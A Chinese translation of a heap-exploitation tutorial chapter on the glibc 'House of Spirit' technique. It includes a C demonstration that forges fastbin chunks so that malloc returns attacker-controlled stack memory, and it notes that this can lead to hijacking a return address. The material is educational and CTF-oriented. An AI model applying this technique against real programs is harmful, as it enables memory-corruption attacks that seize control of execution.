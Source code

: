 ```yaml
---
title: Heap Exploitation系列翻译-13 House of Spirit
tags: [CTF, pwn, heap]
layout: post
categories: translations
---
```



> 本文是对Dhaval Kapil的[Heap Exploitation](https://heap-exploitation.dhavalkapil.com/)系列教程的译文

House of Spirit 跟其他攻击略有不同, 在某种意义上来说, 它涉及到攻击者在指针释放之前去覆写已有指针. 攻击者可以在内存(堆,栈等处)的任意地方创造一个'伪堆块'并覆写一个指针去指向该伪堆块, 堆块必须通过这种方式进行构造才能通过所有的安全测试. 这其实并不难而且也只涉及到设置`size`和next chunk的`size`. 当伪堆块被释放, 它就会被插入到合适的bin链中(最好是fastbin). 在之后的malloc申请大小跟伪堆块大小一致时便能返回攻击者的伪堆块. 最终结果类似于早先描述的'forging chunks attack'

考虑以下示例代码(下载完整版本: [这里](https://heap-exploitation.dhavalkapil.com/assets/files/house_of_spirit.c)):

```c
struct fast_chunk {
  size_t prev_size;
  size_t size;
  struct fast_chunk *fd;
  struct fast_chunk *bk;
  char buf[0x20];                   // chunk falls in fastbin size range
};

struct fast_chunk fake_chunks[2];   // Two chunks in consecutive memory
// fake_chunks[0] at 0x7ffe220c5ca0
// fake_chunks[1] at 0x7ffe220c5ce0

void *ptr, *victim;

ptr = malloc(0x30);                 // First malloc

// Passes size check of "free(): invalid size"
fake_chunks[0].size = sizeof(struct fast_chunk);  // 0x40

// Passes "free(): invalid next size (fast)"
fake_chunks[1].size = sizeof(struct fast_chunk);  // 0x40

// Attacker overwrites a pointer that is about to be 'freed'
ptr = (void *)&fake_chunks[0].fd;

// fake_chunks[0] gets inserted into fastbin
free(ptr);

victim = malloc(0x30);              // 0x7ffe220c5cb0 address returned from malloc
```

注意, 跟预期一样, 返回的指针在`fake_chunks[0]`之前0x10即16字节处. 这是存储`fd`指针的地址. 这次攻击提供了更多可能的攻击. `victim`指向栈上的内存而非堆段. 通过修改栈上的返回地址, 攻击者可以控制程序的执行.
